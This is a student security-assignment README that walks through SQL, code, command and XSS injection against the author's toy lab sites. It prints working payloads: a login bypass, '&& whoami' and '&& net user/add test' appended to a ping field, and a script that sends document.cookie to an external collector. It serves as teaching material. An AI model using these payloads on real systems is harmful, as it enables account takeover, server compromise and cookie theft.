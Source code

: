 
# Implementation of 4 types of injection attacks

Implementation of 4 types of injection attacks SQL injection, code injection, command injection and XSS cross site scripting attack.


## 1. SQL injection :

**Goal ‐ A simple login authentication dynamic website.**


How to perform ‐


**step 1** ‐ with a true existing user with valid name and password.



![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-000.jpg?raw=true)

![APP Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-001.png?raw=true)

**Result** ‐

![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-002.jpg?raw=true)


**step 2** ( performing ) ‐ 
```bash
  'OR'1'='1
```


![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-004.jpg?raw=true)
![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-005.jpg?raw=true)


_Note : schema for this specif code contains id, name, password_

![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/Screenshot%20(500).png?raw=true)



## 2. Code injection :


**Goal ‐ A simple website for calculating result of an expression.**

How to perform ‐

**step 1** : 
```
1+1*2 
```
is input as a simple expression

![APP Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-006.jpg?raw=true)

**Result**
![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-007.jpg?raw=true)

**step 2** : 
```
1+1*2 && phpinfo();
```
![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-008.jpg?raw=true)

***Result**

![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-009.jpg?raw=true)


# 3. Command injection :

**Goal ‐ A simple website which can tell us ping of any ip address or url.**

How to perform ‐

**step 1** ‐ check ping of any ip address or website


![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-010.jpg?raw=true)


**Result**

![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-011.jpg?raw=true)

**step 2** ‐ 
```
8.8.8.8 && whoami
```
![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-012.jpg?raw=true)

**Result**

![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-013.jpg?raw=true)


desktop‐u1vs0am\samir boro

similer commands to perform code injectio ‐


```
8.8.8.8 && whoami
```

```
8.8.8.8 && net user/add test
```
```
8.8.8.8 && net user/ net users // to check
```



# 4. XSS injection :

**Goal ‐ A greeting website which gerenartes hello, ______name**

How to perform ‐

**step 1** ‐ we are checking in input tag to perform xss
```
<script> alert("I'm root ") </script>
```

![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-014.jpg?raw=true)

**Result**

![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-015.jpg?raw=true)


**step 2** ‐ 
```
<script> location.href="xss.php?data='+document.cookie'" </script>
```

in real life that xss.php is replaced by www.something.com/xss.php or any urls.

![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-016.jpg?raw=true)

**Result** ‐ That leads no change in website. Congratulations we have successfully inject js
code.

**step 3** ‐ 
whenever any user submit their name to get greeting they will get the result, as well
as the cookie has now passed to xss.php without knowing to the user.




![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-017.jpg?raw=true)


![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-018.jpg?raw=true)

![App Screenshot](https://github.com/Experiya/snapshot/blob/main/Attack_samirboro_IIITG/image-019.jpg?raw=true)











## Computer Security assignment

For support, email samirboro92@gmail.com 

  
